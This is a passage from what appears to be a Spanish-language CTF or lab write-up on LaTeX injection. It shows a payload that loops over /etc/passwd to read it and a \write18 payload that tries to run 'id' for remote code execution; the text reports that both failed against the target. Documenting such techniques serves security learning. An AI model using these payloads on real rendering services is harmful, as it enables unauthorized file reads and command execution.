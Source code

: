 <figure><img src="../../.gitbook/assets/5093_vmware_ke5dpPspOM.png" alt=""><figcaption></figcaption></figure>

Al intentar listar todo el contenido de `/etc/passwd`a través de la siguiente inyección `LaTeX`, se nos mostraba que había detectado un comando ilegal, con lo cual mediante el bucle, no podíamos listar el contenido entero del archivo.

```latex
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

<figure><img src="../../.gitbook/assets/imagen (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Probamos de intentar ejecutar  el comando `id` mediante la siguiente inyección `LaTeX` para intentar obtener un **RCE**. pero tampoco obtuvimos el resultado esperado.

```latex
\immediate\write18{id > output}
\input{output}
```

<figure><img src="../../.gitbook/assets/imagen (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
